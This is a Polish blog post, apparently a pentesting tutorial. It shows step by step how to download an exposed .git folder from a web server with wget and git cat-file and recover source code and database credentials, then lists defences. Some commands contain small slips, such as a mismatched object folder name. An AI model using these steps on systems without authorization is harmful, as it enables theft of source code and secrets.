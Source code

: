 ```yaml
---
layout: post
title: GIT repository pentesting
subtitle: Odczytywanie zawartości folderu .git
tags: [git pentesting, web app pentesting,web aplication pentesting, pentesting, GIT LOGS HEAD]
---
```


W trakcie przeprowadzanych przez nas testów penetracyjnych aplikacji webowych czasem zdarzy się nam natrafić na katalog .git z włączonym lub wyłączonym listowaniem plików.

Developerzy często zapominają/nie są świadomi że podczas używania komendy 'git clone' automatycznie tworzony jest katalog .git zawierający metadane repozytorium.
Zdarza się również że repozytorium zawiera pliki konfiguracyjne z loginami/hasłami, które powinny znaleźć się w pliku gitignore.

Jakie korzyści daje nam dostęp do folderu .git?

Jeżeli przykładowa aplikacja nie jest open sourcowa, możemy przeprowadzić analizę kodu, do którego normalnie nie mielibyśmy dostępu.
W plikach konfiguracyjnych możemy znaleźć np. poświadczenia potrzebne do połączenia się z bazą danych itp

Z perspektywy osoby przeprowadzającej testy jest to bezcenne znalezisko, jak zatem odczytać zawartość repozytorium?

W przypadku gdy włączone jest listowanie plików, sprawa jest prosta.

Tworzymy folder, do którego pobierzemy całą zawartość katalogu .git

mkdir gitdump

Przechodzimy do folderu:

cd gitdump

Pobieramy zawartość katalogu wraz z podfolderami i wszystkimi plikami.

wget --mirror --include-directories=/.git http://example.com/.git

Po pobraniu wszystkich plików przechodzimy do folderu

cd example.com

i wykonujemy polecenie

git reset --hard

Jeżeli wszystko przebiegło bez problemów zobaczymy komunikat

HEAD is now at [...]

Po wylistowaniu zawartości folderu naszym oczom powinny sie ukazać pliki z kodem źródłowym aplikacji.

Trudniejszy, ale nie niemożliwy jest podgląd plików w przypadku gdy na serwerze wyłączone jest listowanie plików.

W takim przypadku po wejściu pod przykładowy adres example.com/.git nie zobaczymy żadnych podfolderów. W zależności od konfiguracji serwera www naszym oczom ukaże się blank page lub komunikat podobny to tego poniżej

Directory listing not allowed
Forbidden

W takim przypadku warto sprawdzić czy mamy dostęp do pliku example.com/.git/logs/HEAD
Jeżeli tak naszym oczom ukaże się zawartość pliku:

0000000000000000000000000000000000000000 7fe18903e7977db3a373981fb775884c9189fab9 ...

Pliki zawarte w repozytorium możemy w takim wypadku odczytać poprzez wykonanie poniższych czynności:

Tworzymy przykładowy folder

mkdir gitexaple && cd gitexample

Inicjalizujemy nowe repozytorium

git init

Przechodzimy do folderu ./git/objects/

Tworzymy folder z nazwą stworzoną z dwóch pierwszych znaków zawartego w pliku .git/logs/HEAD HEAD commit ID
W naszym przypadku będzie to:

mkdir 7e && cd 7e

W folderze ./git/objects/ na serwerze www znajduje sie katalog odpowiadający dwóm pierwszym znakom HEAD commit ID z pliku .git/logs/HEAD a w nim plik którego nazwa to pozostałe znaki HEAD commit ID
Pobieramy go:

wget http://example.com/.git/objects/7f/e18903e7977db3a373981fb775884c9189fab9

a następnie czytamy jego zawartość:

git cat-file -p 7fe18903e7977db3a373981fb775884c9189fab9

po wywołaniu komendy zobaczymy kilka lini tekstu, interesuje nas tree id

...
tree e8189a98db67ce982248c72b56e5ba2102921bff
parent b7fe7438096875631fa6f917dc4a6896cbb9bf02
...

Analogicznie do poprzednio wykonanych kroków w katalogu .git/objects/ tworzymy folder nazwany na podstawie dwoch pierwszych znaków tree ID e8189a98db67ce982248c72b56e5ba2102921bff i pobieramy z niego plik nazwany resztą znaków z tree ID.

mkdir e8 && cd e8
wget http://example.com/.git/objects/e8/189a98db67ce982248c72b56e5ba2102921bff

i odczytujemy zawartość pobranego pliku

git cat-file -p e8189a98db67ce982248c72b56e5ba2102921bff

W tym momencie powinna ukazać sie nam lista plików zawartych w repozytorium oraz ciągi znaków potrzebne do ich odczytania, przykładowo:

040000 tree 7b557a72a79b3a38512139bac573e36b44c89181 cms
040000 tree d36e87fd76488f48acc41a6a585625a569db5f88 includes
040000 tree b97734c693e55982a6f2285f28e315e7af60d272 images
100644 blob 42fd8b71db9d1f2df671601a6b90c613a1cb6c40 db-config.php
100644 blob e63a64345d5d230a247876fe5f0fcf0f31bb2345 composer.json
040000 tree fbd1d628c2562ae14cf343e0b41cf190c05bedc8 library

Zakładając, że chcemy odczytać zawartość pliku db-config.php ponownie w .git/object tworzymy katalog 42 i pobieramy plik fd8b71db9d1f2df671601a6b90c613a1cb6c40:

mkdir 42 && cd 42
wget http://example.com/.git/objects/42/fd8b71db9d1f2df671601a6b90c613a1cb6c40

i oczytujemy jego zawartość:

git cat-file 42fd8b71db9d1f2df671601a6b90c613a1cb6c40

Całość procesu można zautomatyzować w dość prosty sposób.

Co robić aby nie spotkało to także nas? Oto kilka pomysłów:

Usunięcie folderu .git po check-oucie
Skorzystanie z .htaccess w celu zablokowania dostępu do folderu .git
Trzymanie folderu .git jeden poziom wyżej, w miejscu niedostępnym dla serwera www


